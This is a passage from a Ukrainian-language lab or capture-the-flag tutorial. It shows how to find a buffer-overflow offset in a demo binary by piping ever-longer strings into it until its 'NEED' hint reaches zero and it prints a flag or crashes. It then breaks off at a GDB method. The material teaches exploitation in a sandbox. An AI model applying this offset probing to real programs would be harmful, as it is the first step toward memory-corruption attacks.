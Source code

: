 ### Крок 1: Збудуйте бінарник

```bash
cd stage05_demo_with_hint
./build.sh
```

### Крок 2: Експеримент з підказками

**Спроба 1: Відправимо мало даних**

```bash
echo "HELLO" | ../build/stage05_demo_with_hint
```

Вивід:
```
NEED=75
```

Пояснення: відправили 6 байт (HELLO + \n), бракує 75 байт до 80.

**Спроба 2: Відправимо більше**

```bash
python3 -c "print('A'*50)" | ../build/stage05_demo_with_hint
```

Вивід:
```
NEED=30
```

Відправили 51 байт, бракує 30.

## 🔬 Як ДІЗНАТИСЬ реальний offset?

Якщо в завданні немає підказки, ось як знайти offset самостійно:

### Метод 1: Використання підказок сервера (наш випадок)

```bash
# Відправляємо мало даних:
echo "TEST" | ../build/stage05_demo_with_hint
# Вивід: NEED=76

# Відправляємо більше:
python3 -c "print('A'*50)" | ../build/stage05_demo_with_hint
# Вивід: NEED=30

# Коли NEED=0 → знайшли правильний розмір!
python3 -c "print('A'*80)" | ../build/stage05_demo_with_hint
# Вивід: FLAG або краш
```

### Метод 2: GDB (візуальний та точний)
